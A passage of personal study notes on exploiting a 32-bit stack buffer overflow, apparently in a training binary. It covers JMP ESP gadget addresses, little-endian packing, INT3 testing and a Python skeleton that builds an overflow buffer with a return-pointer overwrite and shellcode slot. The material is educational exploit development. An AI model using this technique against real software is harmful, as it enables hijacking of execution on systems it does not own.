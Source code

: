 
So it found two addresses
- 080414c3
- 080416bf

So we can overwrite the saved pointer with either of these addresses Then doresponse() tries to RETurn to the overwritten Saved Return Pointer, it will execute the "JMP ESP" instruction and divert execution flow to whatever data we send after the value that overwirtes the saved reutrn pointer.


**Little Endians:** 
• ASCII strings (e.g. "ABCD") are stored front-to-back: "\x41\x42\x43\x44\x00"
• Code (e.g. "NOP # NOP # NOP # RET") is stored front-to-back:
"\x90\x90\x90\xC3"
• Numbers (e.g. 0x1337) are stored back-to-front: "\x37\x13\x00\x00"
• Memory addresses or “pointers” (e.g. 0xDEADBEEF) are stored back-tofront:
"\xEF\xBE\xAD\xDE"


For sending our JMP ESP we will use the struct.pack() not the heath adams tought us the manual way cuz that causes problems and hard to do it.

So as we know we need to send the address of `JMP ESP` in little endian so we will write it back-to-front for manually doing then add the shellcode.

For the **struct.pack()** we will use struct madule for 32 bit arch and "<I" (little-endian, unsigned int) parameter.

> this method is without using NOP i.e via
>   using INT 3 ("\xCC") which caused software intrrupt pauses the execution as though hitting a breakpoint

---
**Pro tip:** *”INT 3” is actually how debuggers implement software breakpoints.
The debugger quietly replaces a single byte of the original program code at the
location of the breakpoint with ”INT 3” (\xCC) and then when the breakpoint
gets hit, it swaps the replaced byte out with what it originally was. The more you know!*

---
PRO TIP: As you sent 4 INT3 but there you seeing 3 INT3 and then do one thing that is scroll up and check if they are still 3 or now they are 2 INT3 but now if you see 2 then try appeneding Z  after EIP and before esp.
```python
buff = ""
buff += "A"*(offset_srp - len(buff)) # padding
buff += struct.pack("<I", ptr_jmp_esp) # SRP overwrite where EIP gets overwritten
# EIP says JMP ESP in little endian
buff += "Z"
buff += subtract_esp_10 # ESP points here 4 total intrrupts but now ESP moved to far away to Not getting crashed by GetPC from our payload.
# ESP subtracts it value and moves far away to avoid crash via GetPC but SUB ESP,0x10 is 16 which is and shoould be divisible by 4.

buff += shell_code
# Appened after ESP 4 Bytes which is executed and done

buff += "D"*(buf_totlen - len(buff)) # trailing padding
# Remaining part is padded via D

buff += "\n"
```
